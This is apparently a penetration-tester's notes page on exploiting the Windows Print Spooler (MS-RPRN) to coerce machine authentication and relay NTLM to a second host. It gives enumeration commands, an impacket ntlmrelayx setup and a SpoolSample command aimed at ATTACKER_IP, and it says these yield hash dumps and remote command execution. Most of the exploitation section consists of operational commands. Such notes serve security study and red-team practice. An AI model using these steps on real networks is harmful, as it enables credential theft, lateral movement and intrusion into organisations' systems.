 # Exploiting authentication relay \~ Print Spooler Service

### Resources

1. **Print System Remote Protocol** (**MS-RPRN**)

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1" %}

2. &#x20;**Print Spooler Service**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc" %}

3. **Impacket scripts**

{% embed url="https://www.kali.org/tools/impacket-scripts/" %}

4. **SpoolSample exploitation script**

{% embed url="https://github.com/leechristensen/SpoolSample" %}

A certain bug or "feature" in Microsoft Print System Remote Protocol (MS-RPRN) allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitary IP address.

> Note that the attack discussed below can be unstable, and may cause the Print Spooler service to crash, and the success of the attack varies.

To exploit this flaw, we need to meet the following requirements:

1. A valid set of AD account credentials

* To have access to machines within the AD network, to perform required tasks in the other steps

2. Network connectivity to the target's SMB service
3. The target host must be running the Print Spooler service
4. The hosts involved must not have SMB signing enforced



The sections below discusses how to explore the requirements listed above.

#### #3 The target host must be running the Print Spooler service

We can utilize a few WMI queries from another machine on the network (with network connectivity to the target host) to query the current state:

```powershell
PS> GWMI Win32_Printer -ComputerName <target>
# OR
PS> Get-PrinterPort -ComputerName <target>
```

> Note that the success of this may vary, as Microsoft has been limiting the view on these ports from the network perspective.

#### #4 The hosts involved must not have SMB signing enabled

We can use nmap to enumerate the SMB signing enforcement on our target hosts:

{% code overflow="wrap" %}
```sh
$ nmap --script=smb2-security-mode -p445 <target1> <target2>
```
{% endcode %}

Ideally, we look for the following output: "**Message signing enabled but not required"**.

### Exploitation

From Bloodhound, we may be able to find a situation where a computer (machine account) has privileges over another computer, and is running the Print Spooler service that we can exploit. This means that we can coerce the first host to authenticate to the second host.

&#x20;To which we can perform an authentication relay attack to gain access to the second host as the machine account of our original target host. If the machine account has a dangerous privilege over the other host, we can further exploit it to gain more access.

1. First, we can use ntlmrelayx.py from impacket scripts to setup the NTLM relay:

> This should be ran from the attacker machine

{% code overflow="wrap" %}
```sh
$ python3.9 impacket-ntlmrelayx -smb2support -t smb://"TARGET IP" -debug
```
{% endcode %}

* `TARGET_IP` : the IP address of the second host to which we want to relay the NTLM authentication to
  * Note that we specify the IP address instead of the hostname as we want to prevent Kerberos authentication (which relies on the hostname) from happening

2. Next, we have to coerce our target with the [SpoolSample](https://github.com/leechristensen/SpoolSample) exploitation script:

```
C:\> SpoolSample.exe <target> "ATTACKER_IP"
```

* `<target>` : Hostname of the target host (to which we wish to coerce the authentication from)
* `ATTACKER_IP` : the IP address of our attacker machine from the first step



3. After performing step 3, we will now have received an authentication attempt and a relay to the second host (from the ntlmrelayx impacket script on the attacker machine), while also an automatic hashdump which may provide use with credentials to get a shell on the host.

Optionally,  we can use supply the `-c` flag to `ntlmrelayx.py` to execute a commnd on the target system (for SMB and RPC).

